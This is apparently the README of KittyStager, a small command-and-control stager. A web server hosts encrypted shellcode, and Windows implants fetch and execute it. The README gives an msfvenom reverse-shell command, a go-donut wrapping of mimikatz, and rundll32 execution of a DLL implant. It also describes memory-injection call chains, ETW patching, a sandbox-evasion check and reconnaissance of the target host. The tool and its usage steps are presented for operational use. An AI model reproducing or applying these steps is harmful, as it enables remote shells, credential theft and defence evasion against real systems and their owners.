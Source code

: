 # KittyStager


<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="./img/chat.png"> </a>
</p>


KittyStager is a simple stage 0 C2. It is made of a web server to host the shellcode and an implant, called kitten.
The purpose of this project is to be able to have a web server and some implant for various usage and be 
able to use it with any shellcode.

KittyStager has :
- A web server to host the shellcode
- Some kittens (implants) to execute the shellcode
- A simple cli to interact with the web server
- A user agent whitelist to prevent unwanted connections
- A basic recon to get some information about the target
  - The hostname (used to cypher the shellcode)
  - The username
  - The private IP
  - The program file content
- An AES encryption to encrypt the shellcode with a none hardcoded key


**I would not use this project in red team, at least not now.**



## Content
- [How it works](#how-it-works)
- [Quick start](#quick-start)
- [Kitten](#Kitten)
- [Project structure](#project-structure)
- [TODO](#todo)


## How it works

1. Configure all the settings in the config file
2. Start the server
    1. The server will start
    2. A config file will be created with each kitten
    3. It will configure the default sleep time for the fist callback
3. Compile the kitten
4. Run the kitten
5. Host the shellcode for the kitten

![](/img/workflow.svg)

## Quick start
The kittens are for windows only, but the server can be run on any OS.

How to compile :
```
go build
./kittyStager

cd /kitten/basickitten
go build -o basickitten
./basickitten
```
### How to use :
Generate a shellcode. It works with a shellcode in bin format or in hex format.

#### msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```
#### donut
```
go-donut.exe -i mimikatz.exe
```
#### Cobalt Strike
Generate staged payload in raw format

### Config file
The default config file under `KittyStager/cmd/config` :
```yaml
Http:
  host: "127.0.0.1"
  port: 8080
  endpoint: "/legit"
  sleep: 5
  userAgent: "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/102.0"
  malPath:
    - "kitten/basicKitten/"
    - "kitten/bananaKitten/"
```
### Example
KittyStager :
![](/img/Kitty16.png)
![](/img/Kitty17.png)
![](/img/Kitty10.png)
![](/img/Kitty11.png)
![](/img/Kitty12.png)
![](/img/Kitty18.png)
![](/img/Kitty13.png)

Kitten :
```
~basicKitten ❯ .\basicKitten.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

## Project structure
### [kitten](/kitten)
This is the folder where all the kittens are stored. Each kitten has its own folder.
#### [BasicKitten](/kitten/basicKitten)
This is the basic kitten, and it has the minimum to work. No fancy injection method, just a
`VirtualAlloc` -> `RtlCopyMemory` -> `VirtualProtect` -> `CreateThread` -> `WaitForSingleObject`. Use this as example if you want to develop your own kitten.
#### [BananaKitten](/kitten/bananaKitten)
`NtAllocateVirtualMemorySysid` -> `NtProtectVirtualMemorySysid` -> `NtCreateThreadExSysid` -> `NtWaitForSingleObject`
This is the more advanced kitten. It will use bananaphone, a variant of hell's gate implemented in Go. [https://github.com/C-Sto/BananaPhone](https://github.com/C-Sto/BananaPhone)

It also patches etw and has a sandbox escape mechanism, that check's if there is more than 1 Gb of ram. If not, it will exit.
#### [BananaKitten](/kitten/dllKitten)
Same as BananaKitten, but as a dll. 

Compile it with: `go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o dllKitten.dll`

Run it with: `rundll32.exe .\dllKitten.dll,Init`

### [cmd](/cmd)
#### [kittyStager](/cmd/kittyStager)
Main file of the project. It will start the server and create the config file for each kitten.
#### [config](/cmd/config)
Used to read and check the config file. The config file is `conf.yml`
#### [http](/cmd/http)
Used to start the server and serve the shellcode.
#### [cli](/cmd/cli)
This is the cli to interact with the server.
#### [interact](/cmd/interact)
This is the cli to interact with a kitten, select a shellcode or change sleep time. 
#### [util](/cmd/util)
It contains all the util functions used in the project.
#### [cryptoUtil](/cmd/cryptoUtil)
It contains all the util functions used to encrypt and decrypt the shellcode.
#### [httpUtil](/cmd/httpUtil)
It contains all the util functions used to interact with the server.
#### [malwareUtil](/cmd/malwareUtil)
It contains all the functions used only by the kittens

## TODO
- [ ] Add more kittens (vba, powershell, c#, c)
- [ ] Https